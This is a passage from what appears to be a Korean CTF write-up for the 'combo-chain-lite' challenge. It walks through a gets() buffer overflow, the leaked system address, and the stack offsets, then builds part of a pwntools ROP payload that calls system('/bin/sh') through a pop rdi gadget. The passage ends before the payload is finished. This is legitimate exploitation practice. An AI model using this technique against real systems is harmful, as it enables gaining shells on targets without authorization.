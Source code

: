 void vuln() {
        char dest[8];
        printf("Here's your free computer: %p\n", system);
        printf("Dude you hear about that new game called /bin/sh");
        printf("? Enter the right combo for some COMBO CARNAGE!: ");
        gets(dest);
}

int main() {
        setbuf(stdout, NULL);
        gid_t gid = getegid();
        setresgid(gid,gid,gid);
        vuln();
        return 0;
}
{{< /highlight >}}
10번째 줄의 gets()에서 BOF 취약점이 발생합니다.
지역변수 dest부터 리턴 주소까지의 거리를 바이너리를 통해 확인합니다.
```c
int vuln()
{
  char v1; // [sp+8h] [bp-8h]@1

  printf("Here's your free computer: %p\n", &system);
  printf("Dude you hear about that new game called /bin/sh");
  printf("? Enter the right combo for some COMBO CARNAGE!: ");
  return gets(&v1);
}
```
3번째 줄에 지역변수 v1은 bp-8에 위치하므로 리턴 주소까지의 거리는 sfp 8 바이트를 더해서 0x10입니다.
```c
+---------+--------+--------+
| dest[8] | sfp[8] | ret[8] |
+---------+--------+--------+
```
다음으로 리턴 주소에 무엇을 넣을지 정해야합니다. 소스코드 7번째 줄에 보이듯이 system의 주소를 일부로 보여주고 있었습니다. 다음은 nc로 접속했을 때입니다.
```shell
# nc pwn.hsctf.com 3131
Here's your free computer: 0x7f8c5880f390
Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!:
```
파이썬 코딩으로 system 주소를 파싱하여 가져옵니다.
```python
r.recvuntil(': ')
system = int(r.recvline(), 16)
```
그리고 `/bin/sh`를 system() 함수에 매개변수로 넘겨준다. 문자열은 소스코드 8번째 줄에 나와있다.
```python
e = ELF('./combo-chain-lite')
binsh = next(e.search('/bin/sh'))
```
`/bin/sh`를 매개변수로 전달하려고보니.. 이번 문제는 ELF64 바이너리였다.
```markup
[*] '/mnt/hgfs/shared/hsctf/combo-chain-lite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
함수 호출 규약 fastcall에 따라 첫 번재 매개변수는 rdi에 넣어줘야 합니다.
가젯을 이용합니다.
```python
rop = ROP(e)
payload += 'a' * 0x10
payload += p64(rop.rdi.address)
payload += p64(binsh)
```